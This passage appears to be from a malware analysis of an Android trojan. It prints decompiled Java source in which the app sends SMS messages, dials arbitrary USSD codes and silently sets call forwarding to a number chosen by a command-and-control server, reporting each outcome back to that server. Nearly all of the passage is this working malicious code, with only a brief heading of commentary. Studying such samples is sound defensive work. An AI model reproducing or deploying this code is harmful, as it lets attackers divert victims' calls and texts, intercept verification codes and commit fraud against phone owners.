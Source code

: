 ```java
    public static void sendSMS(String str, String str2) {
        ApiOperationController apiOperationController = new ApiOperationController();
        try {
            SmsManager smsManager = SmsManager.getDefault();
            smsManager.sendMultipartTextMessage(str, null, smsManager.divideMessage(str2), null, null);
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("send_sms", true), true);
        } catch (Exception unused) {
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("send_sms", false), true);
        }
    }
```

#### 6- Calls Utils

Added 2 new features of call forwarding to a number specified by the C2 and dialing a USSD code.

```java
    public static void make_ussd(Context context, String str) {
        ApiOperationController apiOperationController = new ApiOperationController();
        try {
            dialUssd(context, str, 0);
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("make_ussd", true), true);
        } catch (Exception unused) {
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("make_ussd", false), true);
        }
    }

    public static void call_forward(Context context, String str) {
        ApiOperationController apiOperationController = new ApiOperationController();
        try {
            dialUssd(context, "**21*" + str + "*#", 0);
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("call_forward", true), true);
        } catch (Exception unused) {
            apiOperationController.sendRequest(App.getContext(), new ApiSimpleStatePayload("call_forward", false), true);
        }
    }

    public static void dialUssd(Context context, String str, int i) {
        if (str.length() == 0) {
            return;
        }
        TelephonyManager telephonyManager = (TelephonyManager) context.getSystemService("phone");
        TelephonyManager createForSubscriptionId = telephonyManager.createForSubscriptionId(2);
        if (i != 0) {
            telephonyManager = createForSubscriptionId;
        }
        if (context.checkSelfPermission("android.permission.CALL_PHONE") != 0) {
            return;
        }
        telephonyManager.sendUssdRequest(str, new TelephonyManager.UssdResponseCallback() { // from class: org.securitypolicies.setup.utilities.UtilGlobal.1
            @Override // android.telephony.TelephonyManager.UssdResponseCallback
            public void onReceiveUssdResponse(TelephonyManager telephonyManager2, String str2, CharSequence charSequence) {
                super.onReceiveUssdResponse(telephonyManager2, str2, charSequence);
                Log.d("TAG", "onReceiveUssdResponse:  Ussd Response = " + charSequence.toString().trim());
```